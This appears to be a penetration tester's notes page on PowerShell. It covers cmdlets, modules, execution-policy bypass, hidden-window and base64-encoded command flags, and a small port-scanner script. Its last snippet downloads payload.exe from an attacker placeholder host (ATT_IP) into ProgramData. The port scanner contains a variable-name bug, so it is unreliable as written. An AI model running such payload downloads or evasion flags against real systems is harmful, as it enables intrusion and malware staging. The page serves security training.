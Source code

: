 # Powershell

**Powershell** is a powerful built-in shell and scripting environment we can utilize as penetration testers considering its wide-spread availability on all modern Windows-based systems.

> The use of Powershell allows us to take advantage of the "**living-off-the-land**" concept, where using tools that are built-in to the Operating System work to our adbantage once we've obtained access to a system
>
> [https://www.secureworks.com/blog/living-off-the-land](https://www.secureworks.com/blog/living-off-the-land)

#### PowerSploit

PowerSploit is a collection of Microsoft PowerShell modules that can be used to aid penetration testers during all phases of an assessment.&#x20;

{% embed url="https://github.com/PowerShellMafia/PowerSploit" %}

### Powershell CLI

```powershell
# get help in powershell cli 
powershell /?
```

<pre class="language-powershell"><code class="lang-powershell"><strong># Get-Help
</strong><strong>
</strong># get help of a particular command (like man in unix)
Get-Help Get-Help -Full
Get-Help Get-Help -Example
Get-Help Get-Help -Online # online page

# Update help library
Update-Help
</code></pre>

#### Get-Command

It allows us to list all cmdlets, aliases, functions, workflows, filters, scripts, and any applications that are available for us to use in PowerShell

```powershell
# Get-Command
Get-Command -Name *Firewall*
```

***

### PowerShell Options

#### -ExecutionPolicy

The PowerShell execution policy determines which scripts if any, we can run and can easily be disable with the "Bypass" or "Unrestricted" arguments.

<pre class="language-powershell"><code class="lang-powershell"><strong>powershell.exe -ExecutionPolicy Bypass .\script.ps1
</strong>powershell.exe -ep Bypass .\script.ps1 # short command
powershell.exe -ep by .\script.ps1 # short command

powershell.exe -ExecutionPolicy Unrestricted.\script.ps1
</code></pre>

#### -WindowsStyle

The _-WindowsStyl_ parameter hides the Powershell window when used with the "hidden" argument.

```powershell
powershell.exe -WindowStyle Hidden .\script.ps1
powershell.exe -W h .\script.ps1 # short command
powershell.exe -Wi hi  .\script.ps1 # short command
```

#### -Command

The _-Command_ parameter is used to specify a Command or Script Block to run.

```powershell
powershell.exe -Command Get-Process
powershell.exe -Command "& { Get-EventLog -LogName security }"
```

#### -EncodedCommand

The _-EncodedCommand_ parameter is used to execute base64 encoded scripts or commands

```powershell
powershell.exe -EncodedCommand $encodedCommand
powershell.exe -enco $encodedCommand # short command
powershell.exe -ec $encodedCommand # short command
```

#### -NoProfile

The _-NoProfile_ parameter don't load any powershell profiles

> **Profiles** are essentially scripts that run when the powershell executable is launched and can interfere with out operations

```powershell
powershell.exe -NoProfile .\script.ps1
```

#### -Version

We can use the -Version parameter followed by a version number as the argument to downgrade the version of powershell.

> Useful in scenarios where you've landed on a machine with a more recent version and need to downgrade to Version 1.0 or 2.0 to complete certain tasks.
>
> Requires that older versions are stille installed on the target.

```powershell
powershell.exe -Version 2
```

***

### Powershell Cmdlets

**cmdlet** -- pronounced command-let -- is a small, lightweight command that is used in the Windows PowerShell environment. A cmdlet typically exists as a small script that is intended to perform a single specific function such as coping files and changing directories.

{% hint style="info" %}
[https://www.techtarget.com/whatis/definition/cmdlet](https://www.techtarget.com/whatis/definition/cmdlet)
{% endhint %}

```powershell
# ex.
Get-ChildItem
Get-Process
```

#### Get-Process

```powershell
# Create a table with ProcessName and Id of the process 
Get-Process | Sort-Object -Unique | Select-Object ProcessName, Id
```

<pre class="language-powershell"><code class="lang-powershell"><strong># Get a program path from process name utilize pipes
</strong><strong>Get-Process chrome, firefox | Sort-Object -Unique | Format-List Path
</strong></code></pre>

#### Get-Alias

Use this cmdlet with thr "-Definition" parameter followed by a cmdlet name to find what the **aliases**.

```powershell
Get-Alias -Definition Get-ChildItem
```

#### Get-WmiObject

Allow us to view Windows information&#x20;

```powershell
Get-WmiObject -class win32_operatingsystem | select -Property * | Select-Object Version
```

***

### PowerShell Modules

A module is a set of PowerShell functionalities grouped together in the form of a single file that will typically have a ".psm1" file extension.

There are also several different types of modules:

* [Script Modules](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/10-script-modules?view=powershell-7.4)
* [Binary Modules](https://learn.microsoft.com/it-it/powershell/scripting/developer/module/how-to-write-a-powershell-binary-module?view=powershell-7.4)
* [Manifest Modules](https://learn.microsoft.com/en-us/powershell/scripting/developer/module/how-to-write-a-powershell-module-manifest?view=powershell-7.4)
* Dynamic Modules

```powershell
# to obtain a list of all currently imported modules
Get-Module
```

```powershell
# to obtain a list of all available modules
Get-Module -ListAvailable
```

```powershell
# import a local module
Import-Module .\module.psm1

# Find a online module
Find-Module -Name PowerShellGet

# install online module by name
Install-Module -Name PowerShellGet
```

{% hint style="info" %}
Install-Module Microsoft page\
[https://learn.microsoft.com/en-us/powershell/module/powershellget/install-module?view=powershellget-3.x](https://learn.microsoft.com/en-us/powershell/module/powershellget/install-module?view=powershellget-3.x)
{% endhint %}

***

### PowerShell Scripts

Example of simple powershell script that get file contents

<pre class="language-powershell" data-title="example.ps1"><code class="lang-powershell"><strong>Param(
</strong>    [parameter(mandatory=$true)][string]$file
)
Get-Content "$file"
</code></pre>

Run this script in powershell with this command

```powershell
.\example.ps1 users.txt

# output
john
sara
adam
...
```

#### Simple TCP Port scanner script

{% code overflow="wrap" lineNumbers="true" %}
```powerquery
Param(
    [parameter(mandatory=$true)][string]$ip
)

$port=(80,445);

foreach ($port in $ports) { 
    try { 
        $socket=New-Object System.Net.Sockets.TcpClient($ip,$port); 
    } catch{};
    if ($socket -eq $null) {
        echo $ip":"$port" -Closed";
    } else {
        echo $ip":"$port" - Open"; $socket = $null;
    }
}
```
{% endcode %}

***

### PowerShell Objects

#### Creating .NOT Objects

```powershell
$webclient = New-Object System.Net.WebClient

$payload_url = "https://ATT_IP/payload.exe"
$file = "C:\ProgramData\payload.exe"
$webclient.DownloadFile($payload_url,$file)
```

































